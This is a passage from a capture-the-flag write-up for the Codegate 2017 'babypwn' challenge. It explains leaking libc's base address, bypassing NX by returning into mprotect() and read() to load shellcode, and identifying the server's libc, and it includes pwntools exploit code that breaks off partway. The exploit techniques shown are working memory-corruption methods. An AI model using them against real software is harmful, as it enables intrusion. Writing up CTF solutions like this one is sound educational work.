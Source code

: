 This returned the address of `send()`. The offset could be grabbed from my machine's `libc.so`:

![](/images/2017/codegate/babypwn/06.png)

Subtracting the offset from the address of `send()` returned libc's base address. From here on, I calculated the addresses for `mprotect()` and `read()` by adding their offsets from my libc.so to libc's base address. 

### Bypassing NX

The next step was to make a memory location read/write/execute and store my shellcode in there. To do that, I returned to `mprotect()` to make 0x0804b000 read/write/execute. From there, I returned to `read()` which would allow me to send in my shellcode. 

```
# -- STAGE 2 mprotect() a location to rwx and call read() to get shellcode in there --

buf_2 = ""
buf_2 += p32(addr_mprotect)
buf_2 += p32(0x08048eed)    # pop esi; pop edi; pop ebp; ret; 
buf_2 += p32(0x0804b000)    # address to mprotect()
buf_2 += p32(0x100)         # size to mprotect
buf_2 += p32(0x7)           # rwx

buf_2 += p32(addr_read)
buf_2 += p32(0x08048eed)    # pop esi; pop edi; pop ebp; ret; 
buf_2 += p32(0x4)           # sockfd
buf_2 += p32(0x0804b004)    # read shellcode in here
buf_2 += p32(0x100)         # len bytes to read

buf_2 += p32(0x0804b004)    # return to shellcode
buf_2 += "D"*200

payload = buf_1 + buf_2
```

### Getting the flag

So locally my exploit worked to give me a shell. However that was because I had a libc.so I could use to get the offsets for the functions I wanted. The challenge didn't provide a copy of the server's libc.so, which meant I needed to figure out which libc it was using. To do that, I used [http://libcdb.com/](http://libcdb.com/) and passed it the addresses of the `send()` function I leaked in stage 1. From there it identified the target's libc as libc-2.19_16.so, and I was able to get the offsets for the target's `mprotect()`, and `send()` functions. 

Here's the final exploit:

```
#!/usr/bin/env python

from pwn import *
import sys

context(os="linux", arch="i386")

# canary returned by brute.py
canary = "\x00\x19\x78\xcc"

buf_1 = "A"*40
buf_1 += canary
buf_1 += "B"*12

# -- STAGE 1 ret2libc to leak address of send() and calculate libc base address

# ret2libc
buf_2 = ""
```